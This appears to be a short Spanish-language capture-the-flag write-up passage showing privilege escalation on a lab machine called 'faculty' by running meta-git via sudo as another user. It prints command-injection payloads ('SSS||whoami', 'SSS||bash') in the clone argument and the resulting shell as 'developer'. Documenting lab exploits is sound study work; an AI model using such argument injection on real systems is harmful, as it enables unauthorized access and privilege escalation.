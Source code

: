 

# IDENTIFICAMOS QUE LO PODAMOS EJECUTAR
### PROBAMOS A ACCEDER AL BINARIO
```shell
gbyolo@faculty:~$ sudo -u developer /usr/local/bin/meta-git
```

# EJECUCIÓN DE COMANDOS
### WHOAMI
```shell
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'SSS||whoami'
developer
```

### BASH
```shell
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'SSS||bash'
developer@faculty:/tmp$
```